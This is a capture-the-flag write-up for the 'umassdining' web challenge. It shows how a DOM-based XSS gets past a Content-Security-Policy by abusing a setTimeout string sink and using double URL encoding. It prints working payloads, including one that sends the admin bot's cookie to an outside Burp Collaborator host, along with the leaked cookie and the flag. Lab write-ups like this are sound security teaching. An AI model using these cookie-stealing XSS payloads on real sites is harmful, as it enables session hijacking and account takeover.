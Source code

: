 # umassdining

Categories: Web

Description:
> I heard there are these weirdos who love UMASS dining a little bit too much. Can you infilitrate their secret society and get their super secret flag for me?

## Takeaways

DOM-based XSS. Finally a use-case for double encoding.

## Solution

In this challenge we are given the source code. As we can see from the source, we need to reach `/join` to get the flag, but that is only possible if we have the correct admin `auth` cookie. So, we somehow have to leak it. The app also has Content-Security-Policy (CSP) enabled, which is set to `"default-src 'self';script-src 'self' 'unsafe-eval'"`. So, it seems that somehow invoking an `eval` with attack-controlled data should be our way to go here.

There seems to be an admin bot. The user submits essays at the `/register` endpoint via POST requests and with the parameters `email` and `essay`. Then, the bot will visit the URL `/review/essay?email={email}&essay={essay}` which is only accessible from `127.0.0.1`.

A first attempt to bypass the IP restriction was by using the `x-forwarded-for` and similar headers, but this didn't work.

The next thing to note is how the user-controlled parameters are handled. The `/review/essay` will get its contents by populating `essay_checker.html` and in this template file we notice the expression `{{essay.essay|safe}}`. This means that this parameter will not be escaped and is assumed to be already safe. So, the `essay` variable allows us for an XSS attack.

```
POST /register

email=asd%40foo.com&essay=<script>alert(1)</script>
```

Results in the  `GET review/essay?email=asd@foo.com&essay=<script>alert(1)</script>` by the admin bot. However, the bot will not get XSSed, because of CSP. Instead, the following message will be displayed in console: `Content Security Policy: The page’s settings blocked the loading of a resource at inline (“script-src”)`. So we have to somehow circumvent CSP.

Looking at the source code, we notice this bizarre javascript

```javascript
var iloveumass = document.getElementById("debug").getAttribute("data-iloveumass");
function say_something(words) {
    setTimeout(`console.log('${words}')`,500)
}
document.addEventListener("DOMContentLoaded", function() {
    say_something(iloveumass)
});
```

So, when the document has been loaded and parsed, ``setTimeout(`console.log('${words}')`,500)`` is invoked, where the `words=document.getElementById("debug").getAttribute("data-iloveumass");`. What is *evil* here, is the [setTimeout function](https://developer.mozilla.org/en-US/docs/web/api/settimeout#passing_string_literals) with a string parameter. As the documentation states:

> Passing a string instead of a function to setTimeout() has the same problems as using eval().

And here we are passing a string. Also notice that `eval()` is allowed by the current CSP policy. So, we just have to inject the thing.js script and an HTML element with id `debug` and attribute `data-iloveumass` which will hold our XSS payload. The following `essay` value will trigger an `alert(1)` on the bot:

`<p id="debug"  data-iloveumass="'); alert(1); //"></p> <script src=/static/js/thing.js></script>`

So the request is:

```
POST /register

email=asd%40foo.com&essay=<p+id%3d"debug"++data-iloveumass%3d"')%3b+alert(1)%3b+//"></p>+<script+src%3d/static/js/thing.js></script>
```

We modify the above payload to instead leak the admin's cookie:

`<p id="debug"  data-iloveumass="'); window.location = 'http://nb20aa7dkwzrirpv5qa71lnleck28r.burpcollaborator.net/cookie='+encodeURIComponent(btoa(document.cookie)); //"></p> <script src=/static/js/thing.js></script>`

We use `window.location` here as because of the CSP, the bot is not allowed to make requests to other origins. So, for example `<img src=x onerror=xss>` is not allowed. Also inline scripts, like `<script>xss</script>` are not allowed. So, the final request is:

```
POST /register

email=asd%40foo.com&essay=<p%2bid%253d"debug"%2b%2bdata-iloveumass%253d"')%253b%2bwindow.location%2b%253d%2b'http%253a//nb20aa7dkwzrirpv5qa71lnleck28r.burpcollaborator.net/cookie%253d'%252bencodeURIComponent(btoa(document.cookie))%253b%2b//"></p>%2b<script%2bsrc%253d/static/js/thing.js></script>
```

Notice the double encoding of all the characters. The first encoding is for the current request that we are making. Then, when the bot will make the request, it will decode the characters once. So the bot will do:

```
GET /review/essay?email=asd@foo.com&essay=<p+id%3d"debug"++data-iloveumass%3d"')%3b+window.location+%3d+'http%3a//nb20aa7dkwzrirpv5qa71lnleck28r.burpcollaborator.net/cookie%3d'%2bencodeURIComponent(btoa(document.cookie))%3b+//"></p>+<script+src%3d/static/js/thing.js></script>
```

So, the double encoding ensures that our payload is correctly formatted when the bot makes the `GET` request. If we had only encoded our payload once, then the `+` in the string concatenation would have been interpreted as a space character when the bot would make the request.

Now, checking back to our callback URL, we see the request `GET /cookie=YXV0aD1WRWd4VXpGVFJEUlRWVkF6VWxNelExSXpWRFJFVFRGT1F6QXdTMGt6VERCTUlR`. The decoded value is `auth=VEgxUzFTRDRTVVAzUlMzQ1IzVDRETTFOQzAwS0kzTDBMIQ`. So, we set the cookie in our browser and visit `/join`. Then, we are presented with the flag:

`UMASS{NUMB3R_0N3_1N_$TUD3NT_D1N1NG_XD86543267!}`
